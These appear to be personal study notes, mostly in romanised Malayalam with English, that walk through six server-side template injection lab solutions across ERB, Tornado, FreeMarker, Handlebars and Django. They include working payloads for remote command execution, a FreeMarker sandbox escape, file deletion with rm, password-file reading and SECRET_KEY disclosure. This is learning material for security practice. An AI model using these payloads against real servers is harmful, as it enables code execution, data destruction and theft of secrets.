 ### Server-side template injection :
-->templates are file/codes that contains a bunch of static contents and within that content we have spots where dynamic content is supposed to go
-->so nammal use chyuna template enginte syntax il namuk dynamic content ee spots il add chyam eg: ruby il erb syntax , python il jinja syntax
-->Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data
-->try fuzzing the template by injecting a sequence of special characters commonly used in template expressions, such as `${{<%[%'"}}%\`
-->nammal type chyumbol `7*7` enn kodukuka apol 49 enn kandal server side il mathematical operation nadanu ennan
-->Simply submitting invalid syntax is often enough because the resulting error message will tell you exactly what the template engine is, and sometimes even which version
-->PAYLOAD ->https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

==============================================================

       lab-1(Basic server-side template injection)
-->ivide namal lab il keruka enit athil ulla oru product click chyuka apol namuk aa same page il thane unfortunatly the product is not avalilabe enn kanikum
-->so namal aa reqeust eduth repeater il itt test chyuka.athayath -> GET /?message=unfo.... enna request 
-->ini namuk rand reethiyil test chyam onn manual aayi repeater il message parameter il oro payload test chyam allengil ee request intruder il iduka enit message=`$$` koduth googlil ninum SSTI payload search chyth kodukam
-->options tabe il poi grep-match eduth ee unforunately... ennna message varuna aa message mathram select chyuka.apol ini start attack chyumbol ee div il ulla karyangal prathyekam result il kanikum status oke kanikunath pole apol namuk peten matangal manasilkan patum
-->resutl il <%= 3 * 3 %> enn payload 9 enn kanikunu athinartham SSTI vulnerability und
-->so ini ee payload il <%=+system("ls")+%> adikuka apol athinte result kitum
-->lab il paryaunath carlos inte home directiory il poi morale.txt delete chyan aan so message= il  <%=+system("rm+/home/carlos/morale.txt")+%> enn koduth send chyumbol delete aakum athupole lab solve um aakum

==============================================================

       Lab-2(Basic server-side template injection (code context))
-->ivide namal lab il keri login chyuka.enit athil namude preferred name select chyan ulla option und ath select chyuka enit athinte request nokuka ->`POST /my-account/change-blog-post-author-display`   ee request il `blog-post-author-display=user.first_name` ennan parameter value ullath.
-->ivide user. enn object ile attribute value aan first_name ennath. namal first name aan namuk vendath enn koduthath kondan ee attribute vannath
-->ini ee same site il blog post il comment iduna option und.athil namal comment mathram ittal mati.so namuk SSTI payload athil itt test chyam pakshe oru payload ilum 49 enna result kitunila
-->payloads : 
		           
		                                {{7*7}}
										${7*7}
										<%= 7*7 %>
										${{7*7}}
										#{7*7} 

-->but nerethe namal namude preferred name koduthirunalo so namude comment mukalil aa name aan kanikunath
-->so namal enth chyanamennal nerethe preferred name select chytha aa request il poi user.first_name ennath mati user.firstsjdlfj enthengilum kodukuka enit send adikuka
-->enit namal comment chytha aa blog ilek pokumbol kanam error sambavichirikunu
-->karanam template in correct aayi username inte value render chyan patunil so error kanikunu
-->`... in <module> File "/usr/local/lib/python2.7/dist-packages/tornado/template.py", line 348, in g.....`     ithil ninum manasilakam tornado enna template engine aan use chyunathen
-->so ini tornado engine pati padikuka.athil engane aan RCE chyan patuka enn nokuka
-->we discover that template expressions are surrounded with double curly braces, such as `{{someExpression}`
-->burp repeater il aadyam namal adyathe expression il ninum purath veranam enitan namuk venda payload kodukendath so `blog-post-author-display=user.name}}{{7*7}}`  enn payload kodukuk.
-->ivide aadyam rand }} koduth aa expression il ninum purath vannu enit nammude payload idunu
-->ipol namude preffered name ithan .so ini namal puthiya oru blog post il poi enthengilum comment chyuka.apol namude comment in mukalil aayi namude perum kanikum athupole athinte koode save aaya payload um kanikum ie,`Peter Wiener49}}` so 
-->ini namuk ithil RCE chyan patumon nokam.so athinayi ee template il system command engane chyam enn study chyuka
-->`{% import os %} {{os.system('rm /home/carlos/morale.txt')`  ee payload nmmal itt chyumbol ee command aakum(aadyam ls polula command chyanam)
-->so ith ingane ittal aakila . aadyam user.first_name enn kodukanam enit }} double braces itt aa expression close chyanam enitan ee payload idendath
-->`blog-post-author-display=user.first_name}}{%+import+os+%}{{os.system('pwd')&csrf=....`      so ivide namal pwd enna command ittu.so ini namal comment aa page refresh chyumbol namude commentin mukalil namude perinte koode `/home/carlos` enn kanikum(space ull sthalath + symbol iduka)
-->so athinartham namude RCE work aayi ini namuk lab il parayuna pole carlose ine morale.txt delete chyuka athinte payload :
-->`blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')`
-->ee payload namude preferred name request il itt send chyuka ini comment page reload chythal delete aayikolum

==============================================================

       Lab-3(Server-side template injection using documentation)
-->lab open chyth login chyuka.ivide namal content manager aayan kerandath conten-manager : C0nt3ntM4n4g3r
-->enit ethengilum product click chyuka.athil edit template enn option undakum ath click chyuka
-->enit athil static aayullathelam remove chyuka apol last  `${product.stock} left of ${product.name} at ${product.price}`  enn mathram undakum
-->ini ath preview/save click chyuka apol namuk producinte stock ,name,price oke dynamic aayi render chyunath kanam
-->ini athil ethengilum oru product.templateil enthengilum kodukuka like product.namedsfs enit preview adichal error varum karanam engine ath render chyan patil karanam angane oru template illa
-->apol browser il enginte per kanikum `...ateengines.FreeMarker.processInput(FreeMarker.java:56) at lab.actio....`
-->ithil ninum manasilakam freemarker aan engine
-->ini intro yil kodutah site il poi (hactricks) freemarker enn search chythal namuk athumayi bhandapetta payload oke kanum.so athil first ullath select chyuka.enit ee template ull sthalath paste chyuka
-->`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}` ithan payload.ini preview click chythal ee command run chyum ie , uid=12002(carlos) gid=12002(ca....
-->so lab solve aakan morale.txt enna file delete chyanam so namude ee payload il "id" ennath maati `rm morale.txt` enn kodukuka apol ath delete aakum so lab solve aayi

==============================================================

         Lab-4(Server-side template injection in an unknown language with a 
               documented exploit)
-->lab il keruka athil login option illa.so athinartham authentication check chyuna sambavam ila
-->ithil first product inte view-details enn button click chyuka
-->apol `Unfortunately this product is out of stock` enn page il kanikum.ee same msg url ilum kanikum
-->so aa url il vere enthengilum adich nokuka apol athum page il kanikum ie, message=hello enn koduthal ath page il reflect chyunund
-->so url il message=`${{<%[%'"}}%\` enn kodukuka enit search chyumbol namuk error kanan patum
-->aa error il nokumbol kanam handlebars enna engine aan use chyunath
-->so athinte exploit code online il ninum edukuka.intro yil ulla website il und avidunum edukam
-->enit athile "whoami"  mati "rm+/home/carlos/morale.txt"  ennakiyal ath delete aakum apo lab solve aayi
-->real life il chyumbol namuk ee code execute chyuna sthalath namade collaborator client url koduth send chyth nokam apol namuk manasilakaum ee ayakuna sathanam ping aakunundon.angane entho ivan kanikunund

==============================================================

           Lab-5(Server-side template injection with information disclosure via 
                      user-supplied objects)
-->ivide nammal content-manager aayi kerunu.enit ehthengilum oru item click chyuka enit edit template options select chyuka
-->athile static aaya description oke remove chyuka athinu sehsham athil dynamic aayi veruna template mathram vekuka ie,`{{product.stock}} left of {{product.name}} at {{product.price}}` 
-->ini ithle ethengilum onil ->`${{<%[%'"}}%\`  ee sring iduka ie, `product.pri${{<%[%'"}}%\ce` 
-->apol error varum.ee error il ninum manasilakam django template engine aan use chyunath
-->so namuk django template inte documentation study chyanam and notice that the built-in template tag `debug` can be called to display debugging information.
-->so template full ayi remove chyth ->`{% debug %}` ee code itt preview click chyuka apol athinte sambavam aakum
-->ithupole namuk setting enna template tag use chyan patum so `{{settings}}` enn koduth preview click chyuka
-->ini document il nokiyal kanam ee settings tag in oru SECRET_KEY property undakumpolu.so nammal athukoodi cherth code itt preview click chythal namuk secret key kitum
-->`{{settings.SECRET_KEY}}`   ith itt preview click chythal namuk key kitum ith submit chythal lab solve aayi

==============================================================

          Lab-6(Server-side template injection in a sandboxed environment)
-->ivide namal conten-manager aayi login chyuka enit product il poi edit template click chyth static aaya karyanal remove chyuka enit 
-->athile dynamic aaya code il enthengilum add chyth error varon nokuka ` ${product.stock} left of ${product.name} at ${product.prsdfsdice}`   
-->apol error varum.athil kaanam freemarker template engine aan use chyunath 
-->ivide intro yil ulla site ilek pokuka enit athil freemrker exploit nokuka athil sandbox payload kanam ath copy chyth namude site il paste chyth preview adikuka
-->payload   :
                     <#assign classloader=article.class.protectionDomain.classLoader>
					<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
					<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
					<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
					${dwf.newInstance(ec,null)("id")}
-->apol error varum karanam ithil article.class ennan ullath.namude template il produc. ennnan ullath so ithile first line il ulla article.class maati product.class ennnakuka enit preview adichal id command execute aakum
-->so namuk vendath oru password file open chyth athile content eduth submit chythalan lab solve aakuka
-->so id maati ls adikuka apol my_passwrd.txt enna file kanam.so cat my_password adikuka apol athile password kitum . ath eduth submit chyuka . apol lab solve aayi

==============================================================

                Lab-7()